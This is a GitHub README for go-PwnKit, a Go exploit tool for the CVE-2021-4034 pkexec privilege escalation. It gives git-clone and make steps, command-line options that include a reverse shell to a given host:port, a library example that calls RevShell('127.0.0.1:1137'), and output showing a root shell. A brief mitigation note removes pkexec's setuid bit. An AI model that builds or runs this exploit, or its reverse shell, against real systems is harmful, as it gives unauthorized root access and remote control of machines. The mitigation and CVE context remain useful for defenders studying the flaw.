 # go-PwnKit

A pure-Go implementation of the **CVE-2021-4034 PwnKit** exploit.



## Installation

```bash
git clone git@github.com:OXDBXKXO/go-PwnKit.git
cd go-PwnKit
make
```



As the exploit relies on a malicious shared library, a **PWN.so** file is generated from ***payload.go*** and embed in the resulting `exploit` executable.

The ***Makefile*** uses `sed` to temporarily change the package name of the ***payload.go*** file to `main`, hence making this ***Makefile*** Linux-only.

As the Go payload is not as reliable as the C one, the ***Makefile*** will compile the exploit with the C payload by default. You can choose to compile with the Go payload using `make build_go`.



## Usage

#### As standalone executable

```
$> ./exploit -h
Usage of ./exploit:
  -c string
        Command to execute as root (default "/bin/sh")
  -g    Append id and greetings to your command
  -r string
        Optionally open a reverse-shell instead. Format: host:port
```

The exploit can either be used with a command (`-c`) or as a reverse-shell (`-r`).



```
$> ./exploit -g   
uid=0(root) gid=0(root) groups=0(root),994(input),1000(sudo),1001(oxdbxkxo)
hax0r in the system!
sh-5.1#
```



#### As package

```go
package main

import (
	"github.com/OXDBXKXO/go-PwnKit"
)

func main() {
	gopwnkit.Command("id")
	// or
	gopwnkit.RevShell("127.0.0.1:1137")
}

```

:warning: As the exploit relies on `syscall.Exec`, which replaces the current process by the one invoked, it is not possible to do anything else after invocation.



## Demonstration

```bash
$> ./exploit
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```



## Mitigation

Patch `pkexec` if possible, other disable the ***setuid*** bit on the `pkexec` binary.

```bash
chmod 0755 /usr/bin/pkexec
```



## Credits

This project is inspired by several other PoCs of the **PwnKit** exploit.



Thanks to [An00bRektn](https://github.com/An00bRektn/CVE-2021-4034) for the straight-forward exploit setup.

Thanks to [PaterGottesman](https://github.com/PeterGottesman/pwnkit-exploit) and [berdav](https://github.com/berdav/CVE-2021-4034) for the clarity of the exploit explanation.

Thanks to [dzonerzy](https://github.com/dzonerzy/poc-cve-2021-4034) for the *GIO_USE_VFS* trick.

